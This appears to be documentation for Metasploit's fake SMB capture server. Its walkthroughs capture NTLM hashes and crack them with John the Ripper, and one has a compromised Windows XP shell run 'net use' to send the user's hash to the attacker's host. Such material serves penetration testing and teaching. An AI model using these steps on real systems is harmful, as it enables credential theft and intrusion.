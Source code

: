 This module creates a mock SMBv1 server which accepts credentials before returning `NT_STATUS_LOGON_FAILURE`.

## Verification Steps

  1. Start msfconsole
  2. Do: ```use auxiliary/server/capture/smb```
  3. Do: ```run```

## Options

  **CAINPWFILE**

  A file to store Cain & Abel formatted captured hashes in

  **CHALLENGE**

  An 8 byte server challenge.  Default is `1122334455667788`

  **JOHNPWFILE**

  A file to store John the Ripper formatted hashes in

## Scenarios

### Linux Connection via smbclient

Based on [shellvoide.com](https://www.shellvoide.com/hacks/how-to-setup-rogue-fake-smb-server-to-capture-credentials/)

You'll need to set `client use spnego = no` under `[global]` in `smb.conf` to ensure SMBv1 compatability.

Server:

```
msf5 exploit(multi/handler) > use auxiliary/server/capture/smb
msf5 auxiliary(server/capture/smb) > set johnpwfile /tmp/john
johnpwfile => /tmp/john
msf5 auxiliary(server/capture/smb) > run
[*] Auxiliary module running as background job 0.
[*] SMB Captured - 2019-09-25 22:44:04 -0400
NTLMv2 Response Captured from 192.168.2.142:50978 - 192.168.2.142
USER:ubuntu DOMAIN:WORKGROUP OS:Unix LM:Samba
LMHASH:Disabled 
LM_CLIENT_CHALLENGE:Disabled
NTHASH:a6b70b49c8d42903fbe6231ce53a21ff 
NT_CLIENT_CHALLENGE:01010000000000008aee33441474d501f8f62d51f6995359000000000200120057004f0052004b00470052004f005500500000000000
[*] SMB Capture - Empty hash captured from 192.168.2.142:50978 - 192.168.2.142 captured, ignoring ... 
```

Client:

```
root@rageKali:~# grep spnego /etc/samba/smb.conf 
client use spnego = no
root@rageKali:~# smbclient //1.1.1.1/fake
Enter WORKGROUP\root's password: 
session setup failed: NT_STATUS_LOGON_FAILURE
```

Crack the Hash:

```
# cat /tmp/john_netntlmv2
ubuntu::WORKGROUP:1122334455667788:a6b70b49c8d42903fbe6231ce53a21ff:01010000000000008aee33441474d501f8f62d51f6995359000000000200120057004f0052004b00470052004f005500500000000000
# john /tmp/john_netntlmv2 --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
test             (ubuntu)
1g 0:00:00:00 DONE (2019-09-25 22:46) 11.11g/s 1865Kp/s 1865Kc/s 1865KC/s 24782478..playpen
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed

```

### Windows XP via net use

Based off of [hackers-arise.com](https://www.hackers-arise.com/single-post/2018/11/19/Metasploit-Basics-Part-20-Creating-a-Fake-SMB-Server-to-Capture-Credentials)

The idea here is we have a shell on a Windows box where we can't `hashdump` due to user permissions.
However, we're able to do a `net use` to make an `SMB` connection back to our server to get the
user's hash, then hopefully crack it.

```
meterpreter > getuid
Server username: WINXP\test
meterpreter > hashdump
[-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > use auxiliary/server/capture/smb
msf5 auxiliary(server/capture/smb) > set johnpwfile /tmp/john
johnpwfile => /tmp/john
msf5 auxiliary(server/capture/smb) > run
[*] Auxiliary module running as background job 0.
msf5 auxiliary(server/capture/smb) > 
[*] Started service listener on 0.0.0.0:445 
[*] Server started.

msf5 auxiliary(server/capture/smb) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > shell
Process 892 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\test\Desktop>net use \\1.1.1.1 fake

[*] SMB Captured - 2019-09-25 22:26:04 -0400
NTLMv1 Response Captured from 2.2.2.2:1056 - 2.2.2.2
USER:test DOMAIN:WINXP OS:Windows 2002 Service Pack 2 2600 LM:Windows 2002 5.1
LMHASH:7f1a8bbdf965d969339b08f160d292692f85252cc731bb25
NTHASH:e02333eb6ac047b8d4d4f5759b1a455161d4bc576f75460c
net use \\1.1.1.1 fake
System error 1326 has occurred.

Logon failure: unknown user name or bad password.


C:\Documents and Settings\test\Desktop>
```

We're now able to use John the Ripper to crack the password.

```
# cat /tmp/john_netntlm 
test::WINXP:7f1a8bbdf965d969339b08f160d292692f85252cc731bb25:e02333eb6ac047b8d4d4f5759b1a455161d4bc576f75460c:1122334455667788
# john /tmp/john_netntlm --format=netlm  --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Using default target encoding: CP850
Loaded 1 password hash (netlm, LM C/R [DES 32/64])
Warning: poor OpenMP scalability for this hash type, consider --fork=8
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
FAKE             (test)
1g 0:00:00:00 DONE (2019-09-25 22:28) 1.333g/s 1398Kp/s 1398Kc/s 1398KC/s 123456..LATISHA1
Use the "--show --format=netlm" options to display all of the cracked passwords reliably
Session completed
```
